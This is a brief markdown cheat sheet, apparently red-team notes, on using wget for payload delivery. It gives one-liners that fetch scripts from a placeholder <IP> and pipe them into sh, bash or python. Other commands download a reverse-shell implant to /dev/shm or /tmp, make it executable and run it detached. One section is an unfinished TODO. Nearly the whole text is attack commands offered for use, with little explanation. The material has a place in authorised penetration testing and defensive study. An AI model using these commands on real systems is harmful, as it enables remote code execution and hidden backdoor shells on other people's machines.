 # Wget

## 01 - Fileless code execution

This is useful if the machine doesn't have `curl` pre-installed so you can use `wget` to execute it in memory.

```
$ wget -qO- http[s]://<IP>/implant.sh | sh

$ wget -qO- http[s]://<IP>/implant.sh | bash

$ wget -qO- http[s]://<IP>/implant.py | python
```

## 02 - Dropping on memory

Download reverse shell binary and execute it.

```
$ wget -P /dev/shm http[s]://<IP>/implant; chmod +x /dev/shm/implant; /dev/shm/implant & disown

$ wget -O /dev/shm/implant http[s]://<IP>/implant; chmod +x /dev/shm/implant; /dev/shm/implant & disown
```

## 03 - Dropping on disk

Download reverse shell binary and execute it.

```
$ wget -O /tmp/implant http[s]://<IP>/implant; chmod +x /tmp/implant; /tmp/implant & disown
```

## 03 - Compiled After Delivery

TODO: Fill this info

```
$ gcc
```

---
## References

### GTFOArgs

- [GTFOArgs: wget](https://gtfoargs.github.io/gtfoargs/wget/)

### DMCXBlue

- [DMCXBlue: Attachments - Scripting Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-attachment/attachments-scripting-files)